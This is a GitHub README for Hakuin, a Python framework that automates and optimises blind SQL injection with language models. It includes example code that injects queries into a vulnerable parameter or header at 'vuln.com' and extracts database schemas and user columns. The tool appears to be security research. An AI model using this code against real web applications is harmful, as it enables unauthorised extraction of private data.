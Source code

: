![blind_men_by_hakuin](blind_men.jpg "Blind Men by Hakuin")
# Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models
Hakuin is a Blind SQL Injection (BSQLI) inference optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract textual data in databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses two pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for DB content.


## Installation
To install Hakuin, simply run:
```
pip3 install . -e
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, define a class that inherits from the `Requester` class and override the `request` method.
```
import requests
from hakuin import Requester

# Example 1:
# Injecting queries into a URL query parameter and
# inferring the results from status code
class StatusRequester(Requester):
    def request(self, ctx, query):
        # inject queries into a vulnerable query parameter
        r = requests.get(f'http://vuln.com/?v=({query})--')
        # determine the query result
        return r.status_code == 200

# Example 2:
# Injecting queries into a request header and
# inferring the results from response content
class ContentRequester(Requester):
    def request(self, ctx, query):
        # inject queries into a vulnerable header
        headers = {'vulnerable-header': f'({query})--'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        # determine the query result
        return 'found' in r.content.decode()
```


To start infering data, you use the `Exfiltrator` class. It uses a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin only supports SQLite DBMS but will include more options in the near future. If you wish to support another DBMS, you need to implement the `DBMS` and `Queries` interfaces (see the `hakuin/dbms` directory).
```
import requests
from hakuin.dbms import SQLite
from hakuin import Exfiltrator, Requester

class StatusRequester(Requester):
    ...

exf = Exfiltrator(requester=StatusRequester(), dbms=SQLite())
```


Infer DB schema:
```
# Mode:
#   'binary_search': use binary search
#   'model_search': use pre-trained models and Huffman trees

# tables only
res = exf.exfiltrate_tables(mode='model_search')
# columns of a table
res = exf.exfiltrate_columns(table='users', mode='model_search')
# the whole schema
res = exf.exfiltrate_schema(mode='model_search')
```


Infer a text column:
```
# Mode:
#   'binary_search': use binary search
#   'adaptive_search': use adaptive five-gram model and Huffman Trees
#   'unigram_search': use adaptive unigram model and Huffman Trees
#   'dynamic_search': dynamically identify the best search strategy and
#                     do opporunistic string guessing
res = exfiltrate_text_data(table='users', column='address', mode='dynamic_search'):
```


More examples can be found in the `experiments` directory.